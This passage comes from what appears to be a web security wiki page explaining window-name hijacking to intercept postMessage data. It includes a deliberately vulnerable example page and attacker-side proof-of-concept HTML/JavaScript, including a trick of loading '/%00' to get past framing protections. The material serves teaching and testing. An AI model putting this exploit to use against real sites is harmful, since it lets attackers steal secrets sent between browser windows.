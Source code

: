 {% embed url="https://web.archive.org/web/20201227141548/https://blog.geekycat.in/google-vrp-hijacking-your-screenshots/" %}
Real-world example of this vulnerability in docs.google.com
{% endembed %}

### Window name hijacking

Instead of iframes, if the _**name**_**&#x20;of a window** in `window.open()` can be predicted, an attacker can prepare an existing window with the same name that will be reused, effectively **hijacking** it! If you open the target from your page and create a same-origin iframe on your page with a specific name, it will find that first and rewrite the location of the iframe, returning a reference to it. Importantly, this iframe is still on the attacker's page.

If the target page would now send a `postMessage(..., "*")` to this newly opened "window", it may have been hijacked by an attacker again to intercept the message.

{% code title="https://example.com" %}
```html
<?php
// Vulnerable page doesn't need to be iframable
header("X-Frame-Options: DENY");
?>
<h1>Vulnerable</h1>
<button onclick="start()">Start</button>
<script>
  function start() {
    w = window.open("/win", "PREDICTABLE_NAME", "popup");
    setTimeout(() => {
      w.postMessage("SECRET_DATA", "*")
    }, 1000)
  }
</script>
```
{% endcode %}

The attacker can now steal the secret data with any same-origin iframe. If the target doesn't allow this, errors often don't include regular response headers. Try a path like `/%00` or a too-long URI:

<pre class="language-html" data-title="https://attacker.com"><code class="lang-html"><strong>&#x3C;iframe src="https://example.com/%00" id="frame" name="PREDICTABLE_NAME">&#x3C;/iframe>
</strong>&#x3C;script>
  onclick = () => {
<strong>    window.open("https://example.com");
</strong>    // When the user triggers https://example.com's popup, it will be placed in 
    // the above iframe. We quickly rewrite it to our origin to leak the message
    // that will be sent to it:
    frame.onload = () => {
      frame.onload = null;
<strong>      frame.srcdoc = `&#x3C;script>
</strong><strong>  onmessage = (e) => alert(e.data)
</strong><strong>  &#x3C;\/script>`;
</strong>    };
  };
&#x3C;/script>
</code></pre>
